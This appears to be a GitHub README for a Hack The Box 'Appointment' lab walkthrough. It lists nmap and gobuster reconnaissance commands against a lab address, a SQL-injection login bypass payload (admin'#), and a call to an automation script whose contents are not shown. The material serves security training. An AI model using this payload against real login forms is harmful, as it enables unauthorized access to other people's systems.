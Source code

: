 # HTB “Appointment” SQL‑Injection Exploit

Exploit a classic SQL‑Injection on Hack The Box’s **Appointment** web app to bypass authentication and retrieve the flag.

---

## 🚀 Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-appointment.git
cd obsidiansignal-htb-appointment
bash scripts/login-sqli.sh 10.129.99.212
```
📝 Prerequisites
Kali Linux (or any distro with nmap, gobuster, curl)

Active HTB VPN connection

📂 Repository Structure

.
├── README.md
├── writeup/
│   └── lab-writeup.md
├── scripts/
│   └── login-sqli.sh
├── screenshots/
│   ├── nmap.png
│   ├── gobuster.png
│   └── bypass-login.png
└── articles/
    └── appointment-devto.md

🔍 Lab Walkthrough
Nmap Scan
`nmap -sC -sV 10.129.99.212 -o screenshots/nmap.png`

Directory Brute‑Force (optional)

`gobuster dir -u http://10.129.99.212 -w /usr/share/wordlists/dirb/common.txt -o screenshots/gobuster.png`

SQL‑Injection Bypass
- Username: admin'#
- Password: anything
- See login bypass screenshot: screenshots/bypass-login.png

4. Automation

`bash scripts/login-sqli.sh 10.129.99.212`

📄 Write‑Ups & Articles
- Lab Write‑Up: writeup/lab-writeup.md
- Dev.to Tutorial: articles/appointment-devto.md

🤝 Connect
- GitHub: keyfive5
- Dev.to: https://dev.to/keyfive5
- Twitter: https://twitter.com/keyfive5
- LinkedIn: https://linkedin.com/in/your-profile

“Looking for paid pentesting or cloud‑infra security gigs? Let’s connect!”
